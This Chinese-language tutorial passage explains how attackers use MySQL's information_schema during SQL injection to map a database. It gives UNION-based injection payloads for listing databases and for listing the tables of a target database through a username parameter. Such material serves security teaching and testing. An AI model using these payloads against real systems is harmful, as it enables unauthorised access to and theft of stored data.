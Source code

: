 ### **核心操作**

- **`schemata`**：查看数据库列表
- **`tables`**：查看表列表
- **`columns`**：查看列列表

通过 `UNION` 或条件查询，攻击者逐步构建目标数据库结构的完整图谱，为提取数据做准备。



以下是常见的利用方式：

------

## **1. 获取数据库列表**

### 目标：

列出目标服务器上的所有数据库。

### 查询：

```sql
SELECT schema_name FROM information_schema.schemata;
```

### SQL 注入示例：

假设注入点是 `username` 参数，攻击者可能构造如下注入：

```sql
' UNION SELECT schema_name, null FROM information_schema.schemata -- 
```

------

## **2. 获取某个数据库中的所有表**

### 目标：

枚举目标数据库的所有表。

### 查询：

```sql
SELECT table_name FROM information_schema.tables WHERE table_schema = 'target_database';
```

### SQL 注入示例：

攻击者可以通过注入如下语句，爆破目标数据库的表名：

```sql
' UNION SELECT table_name, null FROM information_schema.tables WHERE table_schema = 'target_database' -- 
```
